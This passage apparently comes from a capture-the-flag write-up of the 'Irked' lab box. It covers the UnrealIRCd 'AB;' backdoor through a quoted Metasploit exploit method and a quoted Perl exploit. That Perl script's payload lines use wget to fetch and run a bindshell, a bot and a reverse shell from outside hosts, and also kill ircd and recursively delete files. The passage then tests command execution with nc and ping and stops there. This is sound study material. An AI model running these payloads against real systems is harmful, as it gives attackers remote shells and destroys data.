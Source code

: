     
    
    def exploit
        connect
    
        print_status("Connected to #{rhost}:#{rport}...")
        banner = sock.get_once(-1, 30)
        banner.to_s.split("\n").each do |line|
        print_line("    #{line}")
        end
    
        print_status("Sending backdoor command...")
        sock.put("AB;" + payload.encoded + "\n")
    
        handler
        disconnect
    end
    

It looks like the exploit is to connect and then send “AB;” + the payload +
“\n”.

I’ll examine the perl script the same way, `searchsploit -x
exploits/linux/remote/13853.pl`. Right at the top I see this section:

    
    
    ## Payload options
    my $payload1 = 'AB; cd /tmp; wget http://packetstormsecurity.org/groups/synnergy/bindshell-unix -O bindshell; chmod +x bindshell; ./bindshell &';
    my $payload2 = 'AB; cd /tmp; wget http://efnetbs.webs.com/bot.txt -O bot; chmod +x bot; ./bot &';
    my $payload3 = 'AB; cd /tmp; wget http://efnetbs.webs.com/r.txt -O rshell; chmod +x rshell; ./rshell &';
    my $payload4 = 'AB; killall ircd';
    my $payload5 = 'AB; cd ~; /bin/rm -fr ~/*;/bin/rm -fr *';
    

It appears to be doing the same thing.

## Shell as ircd

### Show RCE

Based on what I found during reconnaissance, I think I can just connect with
`nc` and enter `AB; [some command]` and get it to run. I’ll test with a ping.
I have `tcpdump` running listening for icmp. Now I’ll connect, and test out my
theory:

    
    
    root@kali# nc 10.10.10.117 6697
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
    :irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    AB; ping -c 1 10.10.14.14
    :irked.htb 451 AB; :You have not registered
    

In my other window:
